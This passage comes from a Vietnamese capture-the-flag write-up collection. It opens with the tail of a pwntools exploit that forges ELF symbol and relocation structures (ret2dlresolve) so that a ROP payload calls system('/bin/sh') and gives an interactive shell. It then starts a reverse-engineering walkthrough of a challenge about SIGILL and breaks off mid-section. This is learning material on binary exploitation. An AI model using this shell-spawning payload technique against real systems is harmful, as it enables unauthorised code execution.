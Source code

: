 SYMTAB_struct = p32(st_name) #0x404a40
SYMTAB_struct += p8(st_info)
SYMTAB_struct += p8(st_other)
SYMTAB_struct += p16(st_shndx)
SYMTAB_struct += p64(st_value) #0x404a48
SYMTAB_struct += p64(st_size) #0x404a50

r_offset = exe.got['read']
r_info = (symbol_number << 32) | 7
r_addend = 0
JMPREL_struct = p64(r_offset) #0x404a68
JMPREL_struct += p64(r_info) #0x404a70

payload = flat(
    b'A'*8,        #a00 #padding
    pop_rsi_r15,   #a08
    0, 0,          #a10 #a18
    pop_rdi,       #a20
    0x404a80,      #a28 #string /bin/sh
    link_map,      #a30 #link_map
    reloc_arg,     #a38 #reloc_arg
    SYMTAB_struct, #a40 #a48 #a50
    0, 0,          #a58 #a60 #padding
    JMPREL_struct, #a68 #a70
    b'system\0\0', #a78
    b'/bin/sh\0'   #a80
)

p.send(payload)

p.interactive()
```


-------

27 . Behind the Scenes (rev)
------

1 bài rev ở mức very nói về SIGILL (Illegal instruction)



chạy thử thì nó yêu cầu password

![image](https://hackmd.io/_uploads/S1lVhG-zJx.png)


nhập đại thì nó thoát luôn :(


dùng strings thì cũng không thấy điều gì hữu ích 

![image](https://hackmd.io/_uploads/BkSwnfWGJx.png)






strace thử cũng chưa thấy gì 

![image](https://hackmd.io/_uploads/B1kA3M-M1l.png)


ltrace thì có đọan bị 
```